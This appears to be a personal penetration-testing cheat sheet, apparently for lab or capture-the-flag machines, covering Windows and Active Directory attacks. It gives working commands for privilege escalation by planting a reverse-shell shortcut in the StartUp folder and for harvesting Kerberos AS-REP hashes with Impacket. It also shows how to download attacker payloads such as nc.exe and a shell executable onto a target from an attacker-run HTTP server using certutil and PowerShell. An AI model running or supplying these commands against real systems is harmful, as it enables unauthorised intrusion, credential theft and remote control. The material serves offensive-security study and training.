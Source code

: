 ## Priv escalation via startup apps 

# Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

# Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
cscript C:\PrivEsc\CreateShortcut.vbs

# Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:
rdesktop -u admin 10.10.11.43

# A shell running as admin should connect back to your listener.

## Rogue Potato Exploitation of SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege 
https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html

## Print Spoofer Exploitation of Impersonation privs
https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

# xfreerdp syntax
xfreerdp /u:USER /p:PASS /v:IP

# rpc enum 
https://0xdf.gitlab.io/2020/03/21/htb-forest.html

# bash one-liner to grab kerberos hashes using impacket tool 
while read p; do python3 GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.129.1.165 >> hash.txt; done < unames.txt

# transfer files from attacker to a windows AD environment 

1. fire up python server  -> python -m SimpleHttpServer 80
2. on target terminal -> certutil.exe -urlcache -split -f http://10.13.1.99/shell-x86.exe shell-x86.exe
3. alternative -> powershell.exe wget "http://10.13.1.99/nc.exe" -outfile "C:\Windows\Temp\nc.exe"
4. other alternative -> powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.X.X/nc.exe','c:\temp\nc.exe')
